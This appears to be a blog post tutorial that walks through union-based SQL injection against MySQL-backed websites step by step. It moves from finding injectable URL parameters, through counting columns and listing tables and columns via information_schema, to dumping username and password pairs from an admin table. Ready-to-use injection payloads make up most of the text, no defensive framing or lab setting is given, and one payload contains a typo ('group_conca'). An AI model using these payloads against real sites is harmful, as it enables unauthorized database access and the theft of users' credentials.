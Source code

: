 <!--
author: zhuoliang
head: http://pingodata.qiniudn.com/jockchou-avatar.jpg
date: 2016-07-29
title: Learn How To Hack Websites With Different Techniques
tags: SQL Injection, Hack
category: Hack
status: publish
-->

## SQL Injection in MySQL Databases ##

SQL Injection attacks are code injections that exploit the database layer of the application. This is most commonly the MySQL database, but there are techniques to carry out this attack in other databases such as Oracle. In this tutorial, i will be showing you the steps to carry out the attack on a MySQL Database.

![SQL Injection](img/sql_injection.gif)


### 1. Find A Page Vulnerable###

When testing a website for SQL Injection vulnerabilities, you need to find a page that looks like this:

	www.site.com/page=1
	www.site.com/id=5

Basically, the site needs to have an = then a number or a string, but most commonly a number. Once you have found a page like this, we test for vulnerability by simply entering an ' after the number in the URL. For example:

	www.site.com/page=1'

If the database is vulnerable, the page will spit out a MySQL error such as:

	Warning: mysql_num_rows(): supplied argument is not a valid MySQL result 
			 resource in /home/wwwprof/public_html/readnews.php on line 29

If the page loads as normal then the database is not vulnerable, and the website is not vulnerable to SQL Injection.


### 2. Find The Number of Columns  ###

Now we need to find the number of union columns in the database. We do this using the `order by` command. We do this by entering `order by 1--`, `order by 2--` and so on until we receive a page error. For example:

    www.site.com/page=1 order by 1--
	http://www.site.com/page=1 order by 2--
	http://www.site.com/page=1 order by 3--
	http://www.site.com/page=1 order by 4--
	http://www.site.com/page=1 order by 5--

If we receive another MySQL error here, then that means we have 4 columns. If the site errored on `order by 9` then we would have 8 columns. If this does not work, instead of `--` after the number, change it with `/*`, as they are two difference prefixes and if one works the other tends not too. It just depends on the way the database is configured as to which prefix is used.

### 3. Find The Vulnerable Columns ###

We now are going to use the `union` command to find the vulnerable columns. So we enter after the URL, union all select (number of columns)--, for example:

	www.site.com/page=1 union all select 1,2,3,4--

This is what we would enter if we have 4 columns. If you have 7 columns you would put, `union all select 1,2,3,4,5,6,7--`. If this is done successfully the page should show a couple of numbers somewhere on the page. For example, 2 and 3. This means columns 2 and 3 are vulnerable.

### 4. Find The Database Version, Name and User ###

We now need to find the database version, name, and user. We do this by replacing the vulnerable column numbers with the following commands:

	user()
	database()
	version()

Or if these don't work try...

	@@user
	@@version
	@@database

For example the url would look like:

	www.site.com/page=1 union all select 1,user(),version(),4--

The resulting page would then show the database user and then the MySQL version. For example `admin@localhost and MySQL 5.0.83`.

**IMPORTANT:** If the version is 5 and above read on to carry out the attack, if it is 4 and below, you have to brute force or guess the table and column names, programs can be used to do this.

### 5. List All The Table Names ###

In this step, our aim is to list all the table names in the database. To do this we enter the following command after the URL.

	UNION SELECT 1,table_name,3,4 FROM information_schema.tables--

So the url would look like:
	
	www.site.com/page=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables--

Remember the `table_name` goes in the vulnerable column number you found earlier. If this command is entered correctly, the page should show all the tables in the database, so look for tables that may contain useful information such as passwords, so look for admin tables or member or user tables.


### 6. List All The Column Names ###

In this Step we want to list all the column names in the database, to do this we use the following command:

	union all select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database()--

So the URL would look like this:

	www.site.com/page=1 union all select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database()--

This command makes the page spit out ALL the column names in the database. So again, look for interesting names such as user, email, and password.

### 7. Dump The Data ###

Finally, we need to dump the data, so say we want to get the `username` and `password` fields, from table "admin" we would use the following command:

	union all select 1,2,group_concat(username,0x3a,password),4 from admin--

So the URL would look like this:

	www.site.com/page=1 union all select 1,2,group_conca(username,0x3a,password),4 from admin--

Here the `concat` command matches up the username with the password so you don't have to guess, if this command is successful then you should be presented with a page full of usernames and passwords from the website
